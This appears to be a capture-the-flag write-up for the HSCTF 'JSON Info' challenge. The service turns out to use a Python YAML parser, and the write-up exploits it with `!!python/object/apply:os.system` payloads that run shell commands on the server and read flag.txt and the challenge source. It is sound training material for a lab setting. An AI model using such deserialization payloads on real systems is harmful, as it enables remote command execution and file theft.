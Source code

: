 # JSON Info

# Description:
Written by: cppio

> I made a simple program to analyze my JSON files.
>
> nc misc.hsctf.com 9999
>
> Note: You must send an EOF (normally Ctrl-D) to get a response. If netcat quits before showing any response, you may have to use socat.
>
> socat - tcp:misc.hsctf.com:9999
>
> Alternatively, try netcat's -q flag.
>
> nc -q 1 misc.hsctf.com 9999

# Solution:
- Connect to the given ip and port using netcat and try entering some input

![simple test](https://i.imgur.com/iYuAHvS.png)

At first glance it seems to work just fine and parse json correctly

- Try some invalid input and google some of the error messages, eventually you'll discover these are yaml parser errors

![error](https://i.imgur.com/gSVjaX1.png)

- Google `python yaml exploits` or `python yaml injection` and maybe find this [Talos intelligence report](https://www.talosintelligence.com/reports/TALOS-2017-0305)

- Try it out, `!!python/object/apply:os.system ["uname -a; ls"]`

![output](https://i.imgur.com/3ri5nuh.png)

works fine, so just get our flag (and the source code for the challenge) `!!python/object/apply:os.system ["cat flag.txt; cat json_info.py"]`

![output](https://i.imgur.com/RRonyIE.png)
